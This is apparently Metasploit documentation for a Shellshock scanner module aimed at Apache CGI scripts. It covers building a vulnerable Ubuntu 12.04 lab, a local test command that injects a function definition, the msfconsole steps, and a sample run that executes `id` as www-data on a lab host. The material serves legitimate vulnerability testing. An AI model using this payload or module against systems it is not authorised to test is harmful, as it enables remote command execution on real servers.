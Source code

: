 ## Vulnerable Application

This module scans for the Shellshock vulnerability, a flaw in how the Bash shell handles external
 environment variables. This module targets CGI scripts in the Apache web server by setting
 the HTTP_USER_AGENT environment variable to a malicious function definition.

### Creating a Vulnerable Environment
To setup an Environment that the scanner can be run against, follow the below steps to install a
 vulnerable OS and Apache version.

  To ensure that you have a vulnerable version of bash:
  1. Install Ubuntu 12.04.5 LTS from ISO (available at: http://cdimage.ubuntu.com/releases/12.04/release/)
  2. log into console
  3. run
```
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
```
  4. The shell will return the below text to confirm that the environment is vulnerable
```
vulnerable
bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'
bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
bash: error importing function definition for `BASH_FUNC_x'
test
```
(NOTE: The next series of commands should be run as root or with sudo) <br>
5. Also install Apache2 from the apt repository with the following command
```
apt-get install apache2
```
  6. Enable cgi-mod in apache with the following command
```
ln -s /etc/apache2/mods-available/cgi.load /etc/apache2/mods-enabled/cgi.load
```
  7. Restart the apache service with the following command
```
service apache2 reload
```
  8. In your favorite text editor create a file (as root) in /usr/lib/cgi-bin called test.sh with the following contents
```
#!/bin/bash
printf "Content-type: text/html\n\n"
printf "Test!\n"
```
  9. Set the file to be executable with the following command
```
chmod +x /usr/lib/cgi-bin/test.sh
```

### To check if a host is vulnerable to the attack
1. run (on the host)
```
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
```
2. The shell will return the below text if the environment is vulnerable
``` 
vulnerable
bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'   
bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
bash: error importing function definition for `BASH_FUNC_x'
test
```

## Verification Steps
1. Do: run `msfconsole`
2. Do: use `auxiliary/scanner/http/apache_mod_cgi_bash_env'
2. Do: set `RHOSTS [IP]`
3. Do: set `TARGETURI [URI]`
4. Do: `run`

## Options
1. `CMD`. The default setting is /usr/bin/id
2. `CVE`. The default setting is `CVE-2014-6271` but valid options are CVE-2014-6271 or CVE-2014-6278
3. `HEADER`. The default setting is User-Agent
4. `METHOD`. The default setting is GET

## Scenarios
### Ubuntu 12.04.5 LTS on Apache 2.2.22
  ```
msf5 > use auxiliary/scanner/http/apache_mod_cgi_bash_env
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RHOSTS 172.16.131.134
RHOSTS => 172.16.131.134
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI /cgi-bin/test.sh
TARGETURI => /cgi-bin/test.sh
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > exploit

[+] uid=33(www-data) gid=33(www-data) groups=33(www-data)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```

